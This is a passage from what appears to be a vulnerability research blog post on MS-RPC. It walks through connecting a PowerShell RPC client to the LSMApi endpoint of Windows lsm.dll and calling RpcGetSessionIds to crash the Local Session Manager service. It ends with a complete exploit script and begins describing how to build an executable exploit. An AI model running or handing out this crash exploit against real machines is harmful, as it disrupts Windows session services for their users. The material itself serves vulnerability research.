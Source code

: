 We can choose all three, but in general, we would like an endpoint that is still available after a reboot of the system and that works on other systems. For these reasons, we go with the `LSMApi` endpoint. To create an RPC client and connect it to the `LSMApi` endpoint, we can use `Get-RpcClient` and `Connect-RpcClient`. To tell the client to connect to a specific endpoint, we use the `-StringBinding` parameter, which takes a combination of the protocol sequence, in this case ncalrpc with the endpoint.

```powershell
$client = $vulnrpcinterface | Get-RpcClient
connect-RpcClient $client -StringBinding "ncalrpc:[LSMApi]"

$client

New               : _Constructors
NewArray          : _Array_Constructors
Connected         : True
Endpoint          : \RPC Control\LSMApi
ProtocolSequence  : ncalrpc
ObjectUuid        :
InterfaceId       : 88143fd0-c28d-4b2b-8fef-8d882f6a9390:1.0
Transport         : NtCoreLib.Win32.Rpc.Transport.RpcAlpcClientTransport
DefaultTraceFlags : None
```

Now that we have a connected client, we can invoke the procedures (if we are allowed to do so). 
```powershell
$client.RpcGetSessionIds(0,0)
MethodInvocationException: Exception calling "RpcGetSessionIds" with "2" argument(s): "(0xC0000701) - The ALPC message requested is no longer available."
```
The vulnerable procedure is invoked and the LSM service is crashed! To sum everything up, the following PowerShell script can be used as the exploit:

```powershell
# Get vulnerable RPC interface object
$vulnrpcinterface= "$env:systemdrive\windows\system32\lsm.dll" | Get-RpcServer -DbgHelpPath ".\dbghelp.dll" |? {$_.InterfaceId -eq '88143fd0-c28d-4b2b-8fef-8d882f6a9390'}

# Get a RPC client
$client = $vulnrpcinterface | Get-RpcClient
connect-RpcClient $client -StringBinding "ncalrpc:[LSMApi]"

# Invoke procedure
$client.RpcGetSessionIds(0,0)
```
This script assumes that the NtObjectManager module is installed, but you could also download the [source](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtObjectManager) and use `Import-Module .\NtObjectManager\NtObjectManager.psm1`.

## Executable
To write exploits and compile them to an executable or DLL, I typically go with Visual Studio. There are multiple ways to make an executable exploit for MS-RPC. For this blog, I chose to go with the NtObjectManager library. One downside to this is that the library is quite big, and for that, our exploit will become quite big too. However, it is an easy way to make a working exploit.
